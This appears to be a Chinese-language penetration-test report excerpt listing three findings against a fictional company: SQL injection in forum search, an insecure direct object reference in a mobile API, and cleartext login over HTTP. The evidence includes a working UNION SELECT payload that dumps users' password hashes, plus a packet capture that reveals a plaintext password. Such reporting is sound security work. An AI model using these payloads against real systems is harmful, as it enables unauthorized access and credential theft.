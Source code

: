 ### 论坛软件中的 SQL 注入

**观察到什么**

搜索功能容易受到SQL注入的影响，并且可以获取用户哈希值。从经过哈希处理的对应物中恢复了许多密码。论坛的用户似乎在生产应用程序上使用相同的用户名和密码组合。

**证据**

```
GET /app/search?q=' UNION SELECT username, password_hash FROM users -- HTTP/1.1
Host: app.omnicorp.com


HTTP/1.1 200 OK
Content-Type: text/html


<table>
<tr><th>Username</th><th>Password Hash</th></tr>
<tr><td>admin</td><td>5f4dcc3b5aa765d61d8327deb882cf99</td></tr>
<tr><td>johndoe</td><td>202cb962ac59075b964b07152d234b70</td></tr>
...
</table>
```

### 移动应用程序中不安全的直接对象引用

**观察到什么**

对用户对象的直接引用是不安全实现的，允许未经授权访问其他用户的数据。返回的唯一数据仅限于电子邮件和用户 ID。这可用于针对系统的其他攻击。

**证据**

```
GET /api/user/123/profile HTTP/1.1
Host: mobile.omnicorp.com
Authorization: Bearer [Token]


HTTP/1.1 200 OK
Content-Type: application/json


{"profile": {"userId": "123", "email": "user123@example.com"}}
```

### 移动应用程序中的不安全通信

**观察到什么**

通过 HTTP 传输的敏感数据，公开登录凭据和会话令牌等信息。

**证据**

使用Wireshark捕获：

```
tshark -i eth0 -Y 'http.request.method == "POST" and http.request.uri contains "/api/login"'
 
  1 0.000000000 192.168.1.2 → 192.168.1.10 HTTP 150 POST /api/login HTTP/1.1 (text/plain)
  ...
  HTTP/1.1 200 OK
  ...
  username=user&password=pass123
```
